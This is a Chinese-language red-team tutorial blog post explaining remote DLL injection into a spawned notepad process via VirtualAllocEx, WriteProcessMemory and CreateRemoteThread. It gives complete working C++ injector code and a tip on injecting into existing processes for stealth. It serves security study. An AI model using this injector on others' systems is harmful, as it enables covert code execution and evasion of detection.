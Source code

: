 ```yaml
---
title: 远程DLL注入
date: 2023-06-23
categories: [红蓝对抗]
tags: [红蓝对抗, dll]
---
```


## 0X00 前言 

书接上回，本文介绍DLL远程注入

## 0x01 技术实现

我们这里创建一个notepad进程为例，并打印其PID和句柄。

```c++
if (CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == NULL){
        printf("[!] 进程创建失败");
        return;
}else{
        printf("[+] 进程创建成功！");
        printf("[+] 进程 PID: %d\n", pi.dwProcessId);
        printf("[+] 进程句柄: %p\n", pi.hProcess);
 }
```

当我们已成功获取到目标进程的进程句柄时，下一步就是将 DLL 注入到目标进程，这将需要使用几个Windows API。

|   **VirtualAllocEx**   | **类似于 VirtualAlloc ，允许在远程进程中分配内存** |
| :--------------------: | ---------------------------------- |
| **WriteProcessMemory** | **将数据写入远程进程**                      |
| **CreateRemoteThread** | **在远程进程中创建一个线程**                   |

`LoadLibraryA` 用于在调用它的进程中加载 DLL。由于是在远程进程而不是本地进程中加载 DLL，因此不能直接调用它。所以必须检索`LoadLibraryA` 的地址 并将其传递给远程进程中创建的线程。可以使用 `GetProcAddress `和 `GetModuleHandle` 来确定地址。

```c++
// 通过kernel32.dll使用 LoadLibraryA
pLoadLibraryA = GetProcAddress(GetModuleHandleA("Kernel32"), "LoadLibraryA");
```

当在远程进程中创建新线程时，存储的地址 `pLoadLibraryA` 将用作线程入口。

下一步是在远程进程中给DLL分配内存。

```c++
pAddress = VirtualAllocEx(pi.hProcess, NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

在远程进程中成功分配内存后，可以使用 [WriteProcessMemory](https://learn.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory?redirectedfrom=MSDN)  写入分配的内存。

根据其文档，`WriteProcessMemory` 函数如下所示

```c++
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

根据 `WriteProcessMemory`上面显示的 的参数，它将按如下方式调用，将申请的内存写入分配的地址，由之前调用的 `VirtualAllocEx` 函数返回。

```c++
WriteProcessMemory(pi.hProcess, pAddress, (LPVOID)path, len, NULL);
```

将 DLL 的路径成功写入分配的内存后，然后使用CreateRemoteThread在远程进程中创建一个新线程。并将`pLoadLibraryA`作为线程的起始地址传递，然后 `pAddress` 作为参数传递给调用 。

```c++
HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, 0, pLoadLibraryA, pAddress, 0, NULL);
```

完整代码

```c++
#include <Windows.h>
#include <stdio.h>

void DLLInject(LPCSTR path)
{
    STARTUPINFOA si = { sizeof(STARTUPINFOA) };
    PROCESS_INFORMATION pi = {};

    PTHREAD_START_ROUTINE pLoadLibraryA = NULL;
    LPVOID pAddress = NULL;
    HANDLE hThread = NULL;

    // 创建一个notepad的进程
    if (CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == NULL)
    {
        printf("[!] 进程创建失败");
        return;
    }
    else
    {
        printf("[+] 进程创建成功！\n");
        printf("[+] 进程 PID: %d\n", pi.dwProcessId);
        printf("[+] 进程句柄: %p\n", pi.hProcess);

        int len = strlen(path);

        // 通过kernel32.dll使用 LoadLibraryA
        pLoadLibraryA = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("Kernel32"), "LoadLibraryA");
        if (pLoadLibraryA == NULL) {
            printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
        }

        pAddress = VirtualAllocEx(pi.hProcess, NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
        if (pAddress == NULL) {
            printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
        }

        WriteProcessMemory(pi.hProcess, pAddress, (LPVOID)path, len, NULL);
        printf("[*] 正在注入进程...\n");
        HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, 0, pLoadLibraryA, pAddress, 0, NULL);
        if (hThread == NULL) {
            printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
        }
        printf("[+] 进程注入成功\n");

        if (pi.hProcess)CloseHandle(pi.hProcess);
        if (pi.hThread)CloseHandle(pi.hThread);
        if (hThread)CloseHandle(hThread);
    }
}

int main()
{

    DLLInject(R"(demo.dll)");

    return 0;
}
```



## 0x02 结果验证

下面请出我们上节课的老朋友`demo.dll` 来演示。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-06-23/1.png)

可见成功注入

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-06-23/2.png)



## 0x03 小结

本文介绍了本地远程DLL注入的方法，并通过探讨了技术细节，以及具体的实现方法。当然，读者还可以通过一些其他办法，比如使用`CreateToolhelp32Snapshot` 去遍历进程然后选择已有进程注入，而不是通过创建进程去注入，这样可以更好的提升隐蔽性。

### 注：本文仅用于安全研究和学习之用

